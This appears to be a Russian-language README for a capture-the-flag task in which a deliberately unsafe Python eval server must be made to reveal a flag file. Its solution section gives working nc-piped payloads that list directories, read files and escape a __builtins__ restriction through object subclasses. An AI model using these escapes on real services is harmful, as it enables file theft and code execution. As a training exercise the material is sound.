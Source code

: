 Python eval
===========

> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные.
Заполучите их!  

Файлы
-----
1. **eval.py** - Исходный код
2. **eval2.py** - Исходный код "harder" версии
3. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
4. **blacklist.txt** - Файл с запрещенными словами
5. **server.py** - Псевдо исходный код, который доступен участникам

Запуск
------
```
python3 eval.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
Единственное отличие "harder" версии от обычной в том, что теперь закрыт доступ не только к глобальным переменным, но и к \__builtins__

---

Решение
-------
1. Получить список файлов в папке  
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг  
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```  

Решение "harder" версии
------------------
1. Получить доступ к встроенным \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)